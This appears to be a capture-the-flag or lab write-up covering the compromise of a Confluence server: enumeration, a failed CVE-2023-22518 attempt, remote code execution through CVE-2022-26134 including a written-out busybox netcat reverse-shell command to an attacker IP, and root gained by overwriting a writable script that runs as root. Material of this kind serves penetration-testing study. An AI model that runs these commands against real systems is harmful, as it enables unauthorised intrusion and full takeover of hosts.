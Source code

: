 #Pwned! 
```IP
192.168.140.41
```
# Enumeration
Ubuntu 1ubuntu8.5
## HTTP 8091
Location: http://localhost:8090/login.action?os_destination=%2Findex.action&permissionViolation=true

## HTTP 8090
Server: Aleph/0.4.6
Confluence - 7.13.6
dologin.action
Credentials that didnt work
```
admin:admin
admin:password
```
https://www.vicarius.io/vsociety/posts/authentication-bypass-in-confluence-cve-2023-22518

# Exploitation

```
python3 exploit.py http://192.168.140.41:8090
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204090401.png?raw=true)

however we cant access the  server. Other exploits for cve 2023 22518 doesnt work either

we move on to cve 2022 26134
https://github.com/hev0x/CVE-2022-26134
In the Atlassian offical webpage we can assess that our version (7.13.6) is affected by this exploit:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204094108.png?raw=true)

```
python exploit.py -u http://192.168.140.41:8090 -c 'ping -c 5 192.168.45.176' 
```
this exploit does work as shown below:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204093932.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204093917.png?raw=true)
```
python exploit.py -u http://192.168.140.41:8090 -c 'busybox nc  192.168.45.176 443 -e sh'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204094546.png?raw=true)

# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204094715.png?raw=true)

probable vulnerability in /opt/log-backup.sh
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204094906.png?raw=true)

with pspy we can see that it is running as root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204100339.png?raw=true)

we will try to substitute log-backup.sh since we have write permissions on it. So we create a shell as shown below
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204100755.png?raw=true)
we copy it and we wait for the reverse shell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204100850.png?raw=true)\
 and listening to the port 4444 we get our root shell
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204100952.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

